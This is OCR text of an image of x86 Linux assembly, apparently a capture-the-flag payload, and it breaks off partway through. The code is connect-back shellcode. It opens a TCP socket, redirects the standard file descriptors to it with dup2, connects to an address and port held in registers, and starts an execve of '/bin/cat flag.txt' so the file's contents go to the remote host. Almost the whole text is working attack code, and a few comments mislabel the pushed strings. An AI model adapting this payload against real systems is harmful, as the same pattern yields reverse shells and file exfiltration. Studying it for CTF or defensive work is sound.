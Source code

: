 ```
    push   0x66
    pop    eax
    cdq

    # Set up the arguments for the socket creation.
    # Push 1 (SOCK_STREAM, for TCP) onto the stack.
    push   0x1            
    pop    ebx
    # Push 0 (protocol argument, set to 0) onto the stack.
    push   edx
    # Push `ebx` (1) again (socket type).
    push   ebx
    # Push 2 (AF_INET, for IPv4) onto the stack.
    push   0x2


# System call to create the socket.
syscall_socket:
    # Set `ecx` to point to the arguments (AF_INET, SOCK_STREAM, 0).
    mov    ecx,esp        
    int    0x80
    # Exchange `ebx` and `eax` (store socket file descriptor in `ebx`).
    xchg   ebx,eax
    pop    ecx


# Duplicate the socket file descriptor (dup2 syscall - used to redirect input/output).
duplicate_fd:
    mov    al,0x3f
    int    0x80
    dec    ecx
    jns    duplicate_fd

    # Connect the socket to the specified address and port.
    mov    al,0x66
    # ip address and port pushed
    push   esi
    push   di
    # Push 2 (AF_INET, for IPv4) onto the stack.
    pushw  0x2
    mov    ecx,esp
    # Push 16 (size of the sockaddr_in structure) onto the stack.
    push   0x10
    # Push the pointer to the sockaddr_in structure.
    push   ecx
    # Push the socket file descriptor.
    push   ebx
    # Set `ecx` to point to the arguments for the connect syscall.
    mov    ecx,esp
    int    0x80



    # Execve syscall to spawn /bin/cat flag.txt
    xor eax, eax
    
    # Push "/bin/cat" onto the stack (including the null terminator)
    push eax
    push 0x7461632f     # "cat/"
    push 0x6e69622f     # "bin/"
    mov ebx, esp        # Store pointer to "/bin/cat"
    
    # Push "flag.txt" onto the stack (including the null terminator)
```